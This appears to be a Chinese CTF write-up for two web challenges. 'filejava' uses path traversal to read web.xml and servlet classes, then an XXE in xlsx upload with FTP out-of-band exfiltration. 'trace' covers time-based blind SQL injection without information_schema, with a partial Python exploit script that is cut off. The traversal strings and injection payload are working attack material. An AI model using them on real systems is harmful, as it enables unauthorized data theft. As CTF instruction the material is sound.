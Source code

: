 ### filejava

上传文件后可下载，存在任意文件读取，跳到根目录但读不了flag，因为做了限制

jsp服务先读web.xml

```
/file_in_java/DownloadServlet?filename=../../../../WEB-INF/web.xml
```

看到3个核心类，再去读字节码文件

```
../../../../WEB-INF/classes/cn/abc/servlet/ListFileServlet.class
                                           UploadServlet.class
                                           DownloadServlet.class
```

还原后审计，upload中引入了`poi`解析xlsx，存在XXE

修改xlsx中的`[Content_Types].xml`，然后常规FTP OOB外带即可

### trace

注入，两个限制点：

+ MySQL 5.5.62（无sys表），过滤了information_schema
+ SQL语句执行成功20次整个容器作废

针对第一点，测出存在flag表，常规无列名注入（不知道有没有低版本MySQL绕过information_schema的新姿势）

第二点只需要保证SQL语句永远执行不成功即可：

```
if((), sleep(3) - exp(~1), exp(~1))
```

```python
# -*- coding:utf8 -*-

import requests as r

url = 'http://b7c07b80ccfc48fa8020a34f32d47a4e178852b8d86f47f2.changame.ichunqiu.com/register_do.php'

payload = "select database()" #ctf  # 5.5.62-
payload = '(select `2` from (select 1,2 union select * from flag)a limit 1,1)'
param = "a'|if(ascii(mid((%s),%d,1))%c%d,sleep(3) - exp(~1),exp(~1)),'admin123')#"

def check(data):
    try:
        res = r.post(url, data=data, timeout=3)
        print(res.text)
    except:
        return True
    return False

def binSearch(payload):
    print('[*]' + payload)
    result = 'flag{'
    for i in range(6, 100):
        left = 33
        right = 127
        #binary search
        while left <= right:
            mid = (left + right) // 2
            #s = payload % (i, '=', mid)
            data = {
                "username": param % (payload, i, '=', mid),
                'password': '123',
```